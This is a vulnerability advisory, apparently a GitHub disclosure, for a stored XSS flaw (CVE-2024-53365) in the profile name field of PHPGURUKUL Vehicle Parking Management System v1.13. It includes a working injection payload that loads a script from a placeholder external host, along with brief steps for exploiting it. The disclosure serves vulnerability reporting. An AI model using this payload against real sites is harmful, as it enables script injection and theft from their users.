 # **CVE-2024-53365: Stored Cross-Site Scripting (XSS) in PHPGURUKUL Vehicle Parking Management System v1.13**

## **Description**

A stored cross-site scripting (XSS) vulnerability was identified in PHPGURUKUL Vehicle Parking Management System v1.13 in `/users/profile.php`. This vulnerability allows authenticated users to inject malicious XSS scripts into the profile name field.

## **Additional Information**

Inject this payload: `"><script src="https://severurl"></script>` by changing the server URL.

## **Vulnerability Type**

Cross Site Scripting (XSS)

## **Vendor of Product**

phpgurukul

## **Affected Product Code Base**

Vehicle Parking Management System - v1.13

## **Affected Component**

/users/profile.php

## **Attack Type**

Remote

## **Impact Code execution**

True

## **Attack Vectors**

Navigate to the vulnerable URL and modify the profile name with an XSS script, which is susceptible to stored cross-site scripting.

## **Credits**

Discovered by Abhijith Narayanan, November 2024.

## **References**

- CVE Record: [https://www.cve.org/CVERecord?id=CVE-2024-53365](https://www.cve.org/CVERecord?id=CVE-2024-53365)
- NVD Entry: [https://nvd.nist.gov/vuln/details/CVE-2024-53365](https://nvd.nist.gov/vuln/details/CVE-2024-53365)
- [phpgurukul.com](http://phpgurukul.com)
- [vehicle.com](http://vehicle.com)
- [severurl](https://severurl)
